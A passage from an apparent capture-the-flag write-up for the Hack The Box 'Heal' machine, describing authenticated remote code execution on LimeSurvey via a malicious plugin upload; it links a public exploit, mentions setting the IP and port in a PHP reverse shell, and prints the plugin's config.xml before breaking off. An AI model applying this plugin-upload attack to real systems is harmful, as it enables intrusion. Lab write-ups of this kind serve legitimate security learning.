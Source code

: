 #### Authenticated Remote Code Execution

We logged in with the credentials of `ralph` and found ourselves on the `admin dashboard`.

- [http://take-survey.heal.htb/index.php/admin/authentication/sa/login](http://take-survey.heal.htb/index.php/admin/authentication/sa/login)

![](images/2024-12-14_21-33_80_limesurvey_dashboard.png)

A quick search on `Google` provided us an already existing `Proof of Concept (PoC)` exploit which abuses the ability to `upload plugins`.

- [https://github.com/Y1LD1R1M-1337/Limesurvey-RCE](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE)
- [https://raw.githubusercontent.com/olleharstedt/MassAction/refs/heads/master/config.xml](https://raw.githubusercontent.com/olleharstedt/MassAction/refs/heads/master/config.xml)

We modified the `config.xml` according to the official `release` and changed the `IP address` and `port` in the `php-rev.php`.

```c
┌──(kali㉿kali)-[/media/…/Machines/Heal/files/Limesurvey-RCE]
└─$ cat config.xml 
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>MassAction</name>
        <type>plugin</type>
        <creationDate>2017-03-28</creationDate>
        <lastUpdate>2024-09-16</lastUpdate>
        <author>Olle Haerstedt</author>
        <authorUrl>https://github.com/olleharstedt</authorUrl>
        <supportUrl>https://github.com/olleharstedt/MassAction/issues</supportUrl>
        <version>2.0.0</version>
        <lastSecurityUpdate>1.0.0</lastSecurityUpdate>
        <license>GNU General Public License version 2 or later</license>
        <description><![CDATA[Edit multiple relevance equations in one page.]]></description>
    </metadata>

    <compatibility>
        <version>6.0</version>
    </compatibility>

    <updaters>
        <updater>
            <stable>1</stable>
```
